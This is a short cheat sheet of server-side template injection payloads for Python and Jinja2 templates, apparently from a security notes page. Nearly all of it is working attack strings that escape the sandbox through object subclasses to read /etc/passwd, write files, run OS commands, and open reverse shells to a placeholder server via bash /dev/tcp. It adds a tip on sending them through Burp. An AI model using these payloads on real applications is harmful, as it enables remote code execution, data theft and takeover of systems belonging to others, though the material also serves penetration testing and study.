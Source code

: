 ## Common Payloads
- Python2

```python
#python2 has file
#Read password
''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()
#Write a file
''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evil.txt', 'w').write('evil code')
#OS module
system
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls')
popen
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()
#eval
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
#__import__
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()
#Rebound shell
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('bash -i >& /dev/tcp/your server address/port 0>&1').read()
().__class__.__bases__[0].__subclasses__()[59].__init__.__getattribute__('func_global'+'s')['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('bash -c "bash -i >& /dev/tcp/xxxx/9999 0>&1"')
Note that the Payload cannot be executed directly in the URL, because the existence of & will cause errors in URL parsing. You can use tools such as burp.
#request.environ
Object dictionary related to server environment
```

- Python3

```python
#python3 does not have a file, it uses open
#File reading
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}
{{().__class__.__base__.__subclasses__[177].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("dir").read()')}}
#Command Execution
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}
[].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__.values()[12].system('ls')
```
- You can refer to: [https://github.com/payloadbox/ssti-payloads](https://github.com/payloadbox/ssti-payloads)

## Common available classes
- File Reading_Method 1_Submodule Utilization
- Existing submodules can be queried through `.index()` and return the index if it exists
